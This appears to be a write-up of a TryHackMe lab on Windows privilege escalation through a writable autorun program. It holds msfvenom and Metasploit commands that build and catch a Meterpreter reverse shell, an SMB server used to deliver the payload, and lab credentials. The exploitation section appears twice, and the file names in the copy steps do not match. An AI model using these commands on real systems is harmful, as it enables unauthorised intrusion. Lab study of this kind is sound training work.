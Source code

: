 # Windows PrivEsc Arena

**Room Link:** [https://tryhackme.com/r/room/windowsprivescarena](https://tryhackme.com/r/room/windowsprivescarena)

## Deploy the vulnerable machine

**Kali**

```
xfreerdp +clipboard /u:user /p:password321 /cert:ignore /v:$VICTIM /size:1024x568
```

### Answer the questions

**Open a command prompt and run 'net user'. Who is the other non-default user on the machine?**

**Victim**

```
net users
```

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption></figcaption></figure>

## Registry Escalation - Autorun

### Detection

**Windows VM**

1\. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

**Victim**

```
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption></figcaption></figure>

\
2\. In Autoruns, click on the ‘Logon’ tab.

<figure><img src="../../.gitbook/assets/image (1248).png" alt=""><figcaption></figcaption></figure>

3\. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.

<figure><img src="../../.gitbook/assets/image (1249).png" alt=""><figcaption></figcaption></figure>



\
4\. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

**Victim**

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

\
5\. From the output, notice that the “Everyone” user group has “FILE\_ALL\_ACCESS” permission on the “program.exe” file.

<figure><img src="../../.gitbook/assets/image (1250).png" alt=""><figcaption></figcaption></figure>

### Exploitation

**Kali VM**

1\. Open command prompt and type: msfconsole

**Kali**

```
msfconsole
```

**Kali(msfconsole)**

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $KALI
run
```

\
6\. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp lhost=\[Kali VM IP Address] -f exe -o program.exe

**Kali**

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=$KALI -f exe -o program.exe
```

\
7\. Copy the generated file, program.exe, to the Windows VM.

**Kali**

```
ss -lptn 'sport = :139'
kill -9 $PID
sudo python3.9 /opt/impacket/build/scripts-3.9/smbserver.py kali .
```



**Windows VM**

1\. Place program.exe in ‘C:\Program Files\Autorun Program’.

**Victim**

```
copy \\$KALI\kali\reverse.exe C:\PrivEsc\reverse.exe
```

\
2\. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Victim**

```
xfreerdp +clipboard /u:TCM /p:Hacker123 /cert:ignore /v:$VICTIM /size:1024x568
```



**Kali VM**

1\. Wait for a new session to open in Metasploit.

<figure><img src="../../.gitbook/assets/image (1251).png" alt=""><figcaption></figcaption></figure>



2\. In Metasploit (msf > prompt) type: sessions -i \[Session ID]

**Kali(msfconsole)**

<pre><code><strong>sessions -i 1
</strong></code></pre>

\
3\. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

**Kali(meterpreter)**

```
getuid
```

<figure><img src="../../.gitbook/assets/image (1252).png" alt=""><figcaption></figcaption></figure>

## Registry Escalation - Autorun

**Windows VM**

1\. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

**Victim**

```
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

\
2\. In Autoruns, click on the ‘Logon’ tab.\
3\. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

\
4\. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

**Victim**

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

5\. From the output, notice that the “Everyone” user group has “FILE\_ALL\_ACCESS” permission on the “program.exe” file.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

**Kali VM**

1\. Open command prompt and type: msfconsole

**Kali**

```
msfconsole
```

2\. In Metasploit (msf > prompt) type: use multi/handler\
3\. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp\
4\. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]\
5\. In Metasploit (msf > prompt) type: run

**Kali(msfconsole)**

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost $KALI
run
```

\
6\. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp lhost=\[Kali VM IP Address] -f exe -o program.exe

**Kali**

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=$KALI -f exe -o program.exe
```

\
7\. Copy the generated file, program.exe, to the Windows VM.

**Kali**

```
ss -lptn 'sport = :139'
kill -9 $PID
sudo python3.9 /opt/impacket/build/scripts-3.9/smbserver.py kali .
```

**Victim**

```
copy \\$KALI\kali\program.exe "C:\Program Files\Autorun Program\program.exe"
```



**Windows VM**

1\. Place program.exe in ‘C:\Program Files\Autorun Program’.\
2\. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali**

```
xfreerdp +clipboard /u:TCM /p:Hacker123 /cert:ignore /v:$VICTIM /size:1024x568
```

**Kali VM**

1\. Wait for a new session to open in Metasploit.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

2\. In Metasploit (msf > prompt) type: sessions -i \[Session ID]\
3\. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>














































































































